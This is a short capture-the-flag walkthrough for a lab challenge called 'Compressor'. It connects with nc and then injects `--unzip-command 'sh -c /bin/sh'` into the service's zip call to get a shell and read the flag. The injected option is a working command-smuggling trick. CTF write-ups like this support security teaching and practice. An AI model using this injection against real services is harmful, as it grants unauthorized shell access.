 # Compressor Walk-through
>DESCRIPTION: Ramona's obsession with modifications and the addition of artifacts to her body has slowed her down and made her fail and almost get killed in many missions. For this reason, she decided to hack a tiny robot under Golden Fang's ownership called "Compressor", which can reduce and increase the volume of any object to minimize/maximize it according to the needs of the mission. With this item, she will be able to carry any spare part she needs without adding extra weight to her back, making her fast. Can you help her take it and hack it?

Looks like the docker instance is not a web-facing application:

![[No Web page.png]]

Let's use `nc` in a terminal:
```bash
nc <IP-ADRESS> <PORT>
```

![[Connecting to the instance.png]]

We have a few options to choose from but let's start out by making an artifact:
![[Creating Artifact.png]]

It doesn't matter what you name it or what is in it's content.
First take a look at the command below:
```bash
zip <name>.zip <name> -T --unzip-command 'sh -c /bin/sh'
```
Replace `<name>` with the name of the zip you set.

Now try to use the Compress artifact action (3) and after selecting the name of the zip, use the option shown below:
![[Leveraging zip command to launch shell.png]]

Once you have a shell, go up a few directories to find the flag:
![[Output of redacted flag.png]]

#veryeasy #misc #instance #shell #zip